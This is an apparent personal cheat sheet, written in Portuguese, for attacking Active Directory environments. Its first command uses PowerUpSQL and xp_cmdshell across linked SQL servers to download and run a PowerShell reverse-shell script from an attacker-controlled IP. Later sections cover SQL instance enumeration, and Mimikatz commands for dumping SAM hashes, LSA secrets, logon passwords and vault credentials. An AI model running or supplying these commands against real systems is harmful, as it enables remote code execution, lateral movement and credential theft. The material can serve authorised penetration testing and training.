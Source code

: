 ```powershell
Get-SQLServerLinkCrawl -Instance sql.server.acessivel.local -Query "exec master..xp_cmdshell 'powershell iex (New-Object Net.WebClient).DownloadString(''http://meu.ip/Invoke-PowerShellTcp.ps1'')'" | ft
```

Esses foram os principais comandos que me lembrei do PowerUPSql!

### HeidiSQL

O HeidiSQL é mais simples, apenas colocar a database que eu tenho acesso através do powerupsql, e deixar o login do próprio windows (lembrando que eu devo ter acesso público, pelo menos, pra entrar nela) 

```powershell
# Testando conectividade
Get-SQLInstanceDomain –Verbose | Get-SQLConnectionTestThreaded –Verbose -Threads 10
Get-SQLInstanceDomain –Verbose | Get-SQLConnectionTestThreaded –Verbose –Threads 10 | Where-Object {$_.Status –eq "Accessible"}
```

Com o acesso público nós conseguimos escalar privilégios pra 'sa', mas isso eu deixo pra depois pra explicar melhor as técnicas de se fazer isso!

## Mimikatz

Essa parte é importante, mimikatz é uma das melhores ferramentas para exploração em ambiente AD!

#### Dumps

*Dump do Sam (lsadump::sam)→ Local Administrator Hash*

*LogonPasswords (sekurlsa::logonpasswords) → Domain Administrator Hash (Para acessar outras máquinas dentro do domínio)*

#### Hashes

```powershell
# Pegar hash de usuários
./mimikatz.exe lsadump::lsa /patch

Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit"' 

Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::lsa /patch" "exit"' 

Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::lsa /patch" "lsadump::sam" "exit"'

# Dentro do Vault
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "vault::cred /patch"'
```

### Ataques
